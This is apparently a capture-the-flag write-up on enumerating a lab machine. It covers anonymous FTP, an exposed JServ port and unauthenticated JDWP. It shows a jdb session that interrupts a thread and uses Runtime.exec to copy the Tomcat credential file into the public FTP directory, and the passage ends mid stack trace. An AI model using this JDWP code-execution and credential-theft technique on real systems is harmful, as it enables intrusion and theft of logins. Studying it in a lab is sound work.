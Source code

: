 </table>
</div>

###FTP Enumeration

As nmap  indicated, FTP had anonymous access enabled. Interrogation of the service revealed <code>/pub/sleepy.png </code>

![base64 image](/img/blog/sleepy/sleepy.png)

### JServ Enumeration

JServ protocol is exposed with no web server proxy, JServ acts as a proxy and requires a web server to proxy it's requests.

### JDWP Enumeration

Unauthenticated JDWP is exposed:

{% highlight bash %}
[root]# jdb -attach 192.168.30.146:9001
{% endhighlight %}

Research indicated it was possible to interrupt threads, with the command: <code>interupt</code> allowing for arbitrary code execution.  

<div class="note tip">
  <h5>JDWP Commands</h5>
  <p>Type <code>help</code> for a list of <b>JDWP</b> commands.</p>
</div>

{% highlight bash %}

[root]# jdb -attach 192.168.30.146:9001                                                                                                                                                 
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
Initializing jdb ...
> threads
Group system:
  (java.lang.ref.Reference$ReferenceHandler)0x19d Reference Handler cond. waiting
  (java.lang.ref.Finalizer$FinalizerThread)0x19e  Finalizer         cond. waiting
  (java.lang.Thread)0x19f                         Signal Dispatcher running
Group main:
  (java.lang.Thread)0x1a1                         main              sleeping
> interrupt 0x1a1
>
Exception occurred: java.lang.InterruptedException (uncaught)"thread=main", java.lang.Thread.sleep(), line=-1 bci=-1

main[1] print new java.lang.String(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.Runtime().exec("cp /etc/tomcat/tomcat-users.xml /var/ftp/pub/").getInputStream())).readLine())
java.lang.NullPointerException
	at com.sun.tools.example.debug.expr.LValue.argumentsMatch(LValue.java:268)
	at com.sun.tools.example.debug.expr.LValue.resolveOverload(LValue.java:399)